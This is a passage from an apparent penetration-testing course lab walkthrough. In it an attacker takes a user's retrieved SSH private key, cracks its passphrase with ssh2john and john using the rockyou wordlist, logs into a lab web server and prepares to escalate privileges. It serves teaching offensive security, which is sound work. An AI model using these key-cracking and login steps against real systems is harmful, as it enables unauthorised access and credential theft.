 ```
-----END OPENSSH PRIVATE KEY-----
```

> Listing 12 - Retrieving the SSH private key of daniela

Listing 12 shows that we have successfully retrieved the SSH private key of *daniela*. Let's save the key in a file named **id\_rsa** in the current directory.

Next, let's attempt to leverage this key to access WEBSRV1 as *daniela* via SSH. To do so, we have to modify the file permissions as we have done several times in this course.

```
kali@kali:~/beyond/websrv1$ chmod 600 id_rsa

kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa':
```

> Listing 13 - Trying to leverage the SSH private key to access WEBSRV1

Listing 13 shows that the SSH private key is protected by a passphrase. Therefore, let's attempt to crack it using **ssh2john** and **john** with the **rockyou.txt** wordlist. After a few moments, the cracking attempt is successful as shown in the following listing.

```
kali@kali:~/beyond/websrv1$ ssh2john id_rsa > ssh.hash

kali@kali:~/beyond/websrv1$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
...
tequieromucho    (id_rsa) 
...
```

> Listing 14 - Cracking the passphrase of the SSH private key

Now, let's attempt to access the system again via SSH by providing the passphrase.

```
kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 

Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-48-generic x86_64)
...
daniela@websrv1:~$
```

> Listing 15 - Accessing WEBSRV1 via SSH

Success! We gained access to the first target in the penetration test.

Before we head into the next section, where we'll perform post-exploitation enumeration, let's add the cracked passphrase to the **creds.txt** file in the work environment directory. As users tend to reuse passwords and passphrases, we may need it again later in this assessment.

## 27.2.2. A Link to the Past

In the previous section, we gained access to the target machine WEBSRV1. In this section, we'll perform local enumeration to identify attack vectors and sensitive information and attempt to elevate our privileges.
